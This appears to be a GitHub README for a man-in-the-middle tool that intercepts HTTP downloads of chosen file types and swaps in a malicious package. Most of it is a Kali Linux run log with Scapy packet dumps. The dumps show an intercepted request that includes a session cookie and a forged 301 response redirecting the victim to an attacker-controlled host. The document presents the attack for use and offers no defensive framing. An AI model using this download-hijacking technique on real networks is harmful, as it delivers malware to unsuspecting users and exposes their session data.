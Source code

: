 ## MitM attack manage packages

    At this moment, the module only work under https layer, not for encrypted connections https.
    by default, the prcessor looking for raw packages for request and responses with a choosen extensions.
    ie: ".zip, .pdf, .txt, .exe"
    On response for request we have an oportuninty to replace the content with a malicious package.
     
# Run attack 

   Example over extension files ".png" images:
   
   
        root@kali:~/PycharmProjects/mitm_process.py# python replace_downlad.py 
        
        
        
        
        
        
        
        
        [+] donwload png file Request
        ###[ IP ]### 
          version   = 4
          ihl       = 5
          tos       = 0x0
          len       = 555
          id        = 60647
          flags     = DF
          frag      = 0
          ttl       = 127
          proto     = tcp
          chksum    = 0x3587
          src       = 10.0.9.5
          dst       = 23.101.172.244
          \options   \
        ###[ TCP ]### 
             sport     = 50369
             dport     = http
             seq       = 596615170
             ack       = 1840367
             dataofs   = 5
             reserved  = 0
             flags     = PA
             window    = 65535
             chksum    = 0xcf6d
             urgptr    = 0
             options   = []
        ###[ Raw ]### 
                load      = 'GET /images/illustration-computer-devices.png HTTP/1.1\r\nReferer: http://www.vorlonjs.io/plugins/\r\nUser-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/64.0.3282.140 Safari/537.36 Edge/18.17763\r\nCache-Control: max-age=0\r\nAccept: image/png,image/svg+xml,image/*;q=0.8,*/*;q=0.5\r\nAccept-Language: en-US\r\nAccept-Encoding: gzip, deflate\r\nHost: www.vorlonjs.io\r\nConnection: Keep-Alive\r\nCookie: ARRAffinity=8476eb23cae9d2dd7640d0930ea40ce5ee17c68542fea71b9732b7269b64e40c\r\n\r\n'
        
        None
        [+] response downlad file png type
        [+] replacing file .....
        ###[ IP ]### 
          version   = 4
          ihl       = 5
          tos       = 0x0
          len       = None
          id        = 47458
          flags     = 
          frag      = 0
          ttl       = 254
          proto     = tcp
          chksum    = None
          src       = 23.101.172.244
          dst       = 10.0.9.5
          \options   \
        ###[ TCP ]### 
             sport     = http
             dport     = 50369
             seq       = 1840367
             ack       = 596615685
             dataofs   = 5
             reserved  = 0
             flags     = PA
             window    = 32253
             chksum    = None
             urgptr    = 0
             options   = []
        ###[ Raw ]### 
                load      = 'HTTP/1.1 301 Moved Permanently\nLocation: http://10.0.9.4/image.jpg\n\n'
        
        None
        [+] packet succefully replaced ......


 
 ![inital-web](original_replace_download.png)
 
 
 ![poisoned-file](local_image_redirectio.png)
 
 
 ![replacement-web](replace_download_packet.png)